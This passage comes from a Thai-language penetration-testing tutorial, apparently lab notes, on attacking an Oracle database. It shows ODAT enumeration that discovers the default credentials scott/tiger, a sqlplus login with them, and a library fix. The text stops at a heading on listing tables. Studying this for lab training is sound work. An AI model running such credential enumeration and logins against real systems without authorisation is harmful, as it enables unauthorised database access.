 ```bash
./odat.py all -s 10.129.204.235
```

**สิ่งที่ ODAT สามารถค้นหาได้:**
- ชื่อฐานข้อมูล
- เวอร์ชัน
- Processes ที่กำลังทำงาน
- User accounts
- ช่องโหว่ (Vulnerabilities)
- การตั้งค่าที่ผิดพลาด (Misconfigurations)

**ผลลัพธ์ตัวอย่าง:**
```
[!] Notice: 'mdsys' account is locked
[!] Notice: 'oracle_ocm' account is locked  
[!] Notice: 'outln' account is locked
[+] Valid credentials found: scott/tiger. Continue...
```

✅ **พบ credentials:** `scott/tiger`

## การเชื่อมต่อด้วย SQLplus

### Login ด้วย User ธรรมดา

```bash
sqlplus scott/tiger@10.129.204.235/XE
```

**ผลลัพธ์:**
```
SQL*Plus: Release 21.0.0.0.0 - Production
Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

ERROR:
ORA-28002: the password will expire within 7 days
```

⚠️ แจ้งเตือน: รหัสผ่านจะหมดอายุภายใน 7 วัน

### แก้ไขปัญหา Shared Libraries

หากเกิด error: `libsqlplus.so: cannot open shared object file`

```bash
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf"
sudo ldconfig
```

## การสำรวจฐานข้อมูล

### ดูตารางทั้งหมด
